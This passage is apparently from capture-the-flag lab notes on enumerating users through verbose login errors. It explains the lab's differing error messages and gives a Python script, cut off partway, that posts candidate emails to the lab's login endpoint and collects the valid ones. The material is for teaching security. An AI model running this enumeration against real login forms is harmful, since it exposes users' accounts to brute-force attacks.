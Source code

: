 When it comes to breaching authentication, enumeration and brute forcing often go hand in hand:

- **User Enumeration**: Discovering valid usernames sets the stage, reducing the guesswork in subsequent brute-force attacks.
- **Exploiting Verbose Errors**: The insights gained from these errors can illuminate aspects like password policies and account lockout mechanisms, paving the way for more effective brute-force strategies.

In summary, verbose errors are like breadcrumbs leading attackers deeper into the system, providing them with the insights needed to tailor their strategies and potentially compromise security in ways that could go undetected until it’s too late.

### Enumeration in Authentication Forms

In this HackerOne [report](https://hackerone.com/reports/1166054), the attacker was able to enumerate users using the website's Forget Password function. Similarly, we can also enumerate emails in login forms. For example, navigate to [http://enum.thm/labs/verbose_login/](http://enum.thm/labs/verbose_login/)[](http://enum.thm/labs/verbose_login/) and put any email address in the Email input field.

When you input an invalid email, the website will respond with "Email does not exist." indicating that the email has not been registered yet.
![[Pasted image 20240803172124.png]]
However, if the email is already registered, the website will respond with an "Invalid password" error message, indicating that the email exists in the database but the password is incorrect.
![[Pasted image 20240803172130.png]]
### Automation

Below is a Python script that will check for valid emails in the target web app. Save the code below as **script.py**.

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()
```